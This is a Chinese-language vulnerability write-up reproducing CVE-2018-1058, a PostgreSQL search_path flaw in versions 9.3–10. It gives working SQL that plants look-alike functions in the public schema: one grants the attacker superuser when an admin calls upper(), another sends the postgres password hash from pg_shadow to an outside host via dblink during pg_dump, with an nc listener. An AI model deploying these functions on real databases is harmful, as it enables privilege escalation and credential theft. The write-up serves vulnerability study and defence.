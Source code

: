 （CVE-2018-1058）PostgreSQL 提权漏洞
====================================

一、漏洞简介
------------

PostgreSQL
是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

二、漏洞影响
------------

PostgreSQL 9.3-10

三、复现过程
------------

### 利用方式

在Postgres的commit记录中，有如下[commit](https://github.com/postgres/postgres/commit/5770172cb0c9df9e6ce27c507b449557e5b45124):

    As special exceptions, the following client applications behave as documented
    regardless of search_path settings and schema privileges: clusterdb
    createdb createlang createuser dropdb droplang dropuser ecpg (not
    programs it generates) initdb oid2name pg_archivecleanup pg_basebackup
    pg_config pg_controldata pg_ctl pg_dump pg_dumpall pg_isready
    pg_receivewal pg_recvlogical pg_resetwal pg_restore pg_rewind pg_standby
    pg_test_fsync pg_test_timing pg_upgrade pg_waldump reindexdb vacuumdb
    vacuumlo.  Not included are core client programs that run user-specified
    SQL commands, namely psql and pgbench.

上面的commit提到了两类的client
applications。下文的较为直观的利用方式一是针对第二类client
applications（比如psql），然后利用方式二是通过第一类client
applications来执行任意代码，相比较下更为隐蔽。

### 利用方式一

在系统schema`pg_catalog`中，定义了大量的函数，用pgAdmin3查看:

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId27.png)

以函数abs系列为例，接受一个类型为bigint\\smallint\\intger\\real\\double
precision\\numeric的参数，返回其绝对值。倘若我们传送一个非数值类型的参数呢，比如text，

    evil=> select abs('chybeta');

由于并没有参数类型为text的abs函数，会直接报错：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId28.png)

但postgres提供了自定义函数的功能！我们创建如下函数：

    CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

当我们再次执行同样的查询语句，根据postgres的设计流程，它会先去查找系统schema`pg_catalog`，但由于参数类型不同没有找到，接着按照`search_path`中的顺序查找，而我们定义的`abs(text)`存在于schema`public`中，参数符合，因此pg理所当然地执行了我们定义的函数:

![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId29.png)

注意一个点，这个函数是定义在schema`public`中的，也就是说对于进入到这个数据库的任何用户，只要他们调用了abs，且参数为text，都有可能会诱发恶意的代码执行。比如以超级用户postgres执行:

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId30.png)

不过有谁会傻乎乎的去运行一个莫名其妙的abs(text)呢？因此真正的攻击手段是将过程隐藏到看似正常的数据库查询中。这次我们选择schema`pg_catalog`中的另外一类函数比如lower(text)，upper(text)，它们分别将text类型的参数转成小写和大写，不过系统没有提供接受varchar参数的lower和upper，尽管可以进行类型转换，但对pg而言，最好的选择当然是参数类型恰好符合的恶意自定义函数。

创建一个表，值的类型为varchar：

    CREATE TABLE public.hahahaha AS SELECT 'CHYBETA'::varchar AS contents;

创建对应的恶意函数:

    CREATE FUNCTION public.lower(varchar) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

对绝大部分用户而言，他们可能看大写的`CHYBETA`不爽，然后执行了lower函数，但在不知道/清楚类型的情况下，他们执行的是public中的恶意自定义函数。

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId31.png)

只能打印`you are hacked by XXX`有毛用！！由于恶意自定义函数可以被超级用户调用到，因此也就有了相应的执行权限，最简单的比如提权。

先来看看权限情况（以超级用户为例），可以看到只有postgres的rolsuper是t，即true:

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId32.png)

在用户chybeta登陆进evil数据库后，他创建了如下`upper函数`:

    CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
        ALTER ROLE chybeta SUPERUSER;
        SELECT pg_catalog.upper($1);
    $$ LANGUAGE SQL VOLATILE;

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId33.png)

注意这里是`VOLATILE`，具体原因参考
[官方文档:xfunc-volatility](https://www.postgresql.org/docs/8.2/static/xfunc-volatility.html)

另外一张table，小写的chybeta:

    CREATE TABLE public.hehehehe AS SELECT 'chybeta'::varchar AS contents;

管理员一看，心中不爽：小写小写就知道小写，然后:

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId35.png)

看上去一切正常，大写的大写。回到用户chybeta处，查看一下权限:

![9.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId36.png)

已经成为超级用户。

利用方法有很多，理论上只要能创建恶意函数，管理员调用，就是以管理员身份去执行恶意sql语句/代码。在这种情况中，如commit所说`Not included are core client programs that run user-specified SQL commands, namely psql and pgbench.`，被攻击用户是知道自己执行的sql语句，只是其中的某个function意义被掉包了。

### 利用方式二

安装完PostgreSQL后还会有一系列的工具，比如pg\_dump、pg\_dumpall等等。基于利用方式一，在创建了恶意函数的基础之上，可以通过这些工具来执行恶意函数。这些工具在执行过程中会动态设定`search_path`，导致`public`的优先级比`pg_catalog`高，也就是说即使是在相同类型相同参数相同函数名的情况下，会选择`public`中的函数。相比第一种而言隐蔽性更强，同时有更高的可触发性。

为利用pg\_dump中的sql语句，可以利用log来观察执行过程。在superuser的权限下`show log_directory;`找到log目录，将目录下postgresql.conf中的约莫455行改为`log_statement = all`。重启PostgreSQL后，使用pg\_dump工具执行备份命令:

    pg_dump -U postgres -f evil.bak evil

同时观察log输出，查找`statement: SET search_path =`，最后在某处我发现了一段这样的log:![10.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId38.png)

可以看到在这段log中，有一处的`array_to_string`是没有指定schema的。在系统schema中它的定义如下：

![11.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId39.png)

在这里由于已经设定了`search_path`，为了能直接适配，这里创建的恶意函数的参数个数和类型都必须和`pg_catalog`中定义的相同，倘若不同则会按顺序匹配到正确的函数。

因为pg\_dump在运行过程中开启的是`read only transaction`，根据[官方文档](https://www.postgresql.org/docs/9.1/static/sql-set-transaction.html)：

    The transaction access mode determines whether the transaction is read/write or read-only. Read/write is the default. When a transaction is read-only, the following SQL commands are disallowed: INSERT, UPDATE, DELETE, and COPY FROM if the table they would write to is not a temporary table; all CREATE, ALTER, and DROP commands; COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed. This is a high-level notion of read-only that does not prevent all writes to disk.

是不允许执行下类操作的:

1.  INSERT, UPDATE, DELETE, COPY FROM
2.  all CREATE, ALTER, and DROP commands
3.  COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if
    the command they would execute is among those listed

不过并没有禁止`select`语句。如果开启了dblink，则可以利用查询来带出数据，比如用dblink\_connect。因此我们创建这样的一个恶意函数：

    CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
        select dblink_connect((select 'hostaddr=192.168.248.132 port=12345 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
        SELECT pg_catalog.array_to_string($1,$2);
    $$ LANGUAGE SQL VOLATILE;

远程vps上监听：

    nc -lvv 12345

当管理员进行数据库备份时：

    pg_dump -U postgres -f evil.bak evil

![12.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId41.png)

即可得到管理员密码：

![13.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId42.png)

参考链接
--------

> https://xz.aliyun.com/t/2109\#toc-1
